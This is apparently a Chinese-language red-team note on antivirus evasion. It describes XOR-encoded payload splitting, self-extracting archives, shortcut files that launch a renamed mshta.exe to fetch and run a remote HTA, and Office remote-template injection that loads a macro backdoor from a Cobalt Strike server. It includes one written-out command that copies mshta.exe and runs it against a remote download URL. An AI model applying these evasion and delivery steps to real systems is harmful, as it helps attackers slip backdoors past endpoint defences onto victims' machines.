 # 免杀

#### 1、

​      捆绑的exe免杀

先将bin文件异或后再生成exe用来调用bin 文件，分离：

![image-20241227135020461](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525387.png)

![image-20241227135600527](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525388.png)

这里就是分离的思想，只需要将后门exe免杀就行，捆绑后的exe也是免杀的。



#### 2、

自解压免杀

一样，也是将我们的后门exe免杀就行。

#### 3、

  快捷方式-------主要：1、拦截执行下载的mshta.exe程序，2、远程下载的hta文件

![image-20241227173500530](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525389.png)

绕拦截            后面图像有问题，中间翻车制作vba的免杀被剪掉了，vba在这里火绒是既要mshta程序进行处理，又要对vba本身进行混淆加密。

hta文档里的vba文件直接被杀，所以需要做免杀：

![image-20241227192737444](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525390.png)

![image-20241227192715013](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525391.png)

加密：

![image-20241227194313535](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525392.png)

用cmd.exe调用执行copy 将刚才加密后的两个vbs放到web站点上：

![image-20241227194424214](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525393.png)

制作powershell的免杀---------这里都是做的快捷方式的hta文件，只是hta有许多格式。powershell、vba     这里是要对powershell.exe进行copy处理，但是不用对powershell执行的命令免杀，这就是内存问题。

![image-20241227201203409](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525394.png)

C:\Windows\System32\cmd.exe /c copy C:\Windows\System32\mshta.exe ms.exe & ms.exe http://192.168.139.128:96/download/file.ext     ![image-20241227201240328](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525395.png)

现在这方法已经不适用了，用不了了。远程调用时候会被杀。



#### 4、

   office 宏免杀。模板免杀，这里找到模板的地址，发现创建一个模板文档时会调用一个路径，这路径就是模板的地址，那么就可以更改他调用的模板路径为我们宏的远程地址，进而加载上线。但是这里只能过表面，运行加载远程宏时会被发现

生成一个宏模板文件 11.docx，宏为空的，将宏模板后缀改为zip，打开后后有setting 文件

![image-20241227202240358](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525396.png)

打开setting 文件：

![image-20241227202622703](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525397.png)

这里就是将这个地址改为我们的远程地址：qdaaa.dotm 里面加宏代码后门，保存为dotm的宏模板文件,放到我们的cs远程地址上。然后重新打开刚才的setting 文件，替换为我们的远程地址，  在重新打开  11.docx 就可以执行宏代码上线。

![image-20241227203110109](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525398.png)

这里的宏代码需要经过加密，也可以用刚才的vbs加密器进行加密。

![image-20241227203035552](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506161525399.png)

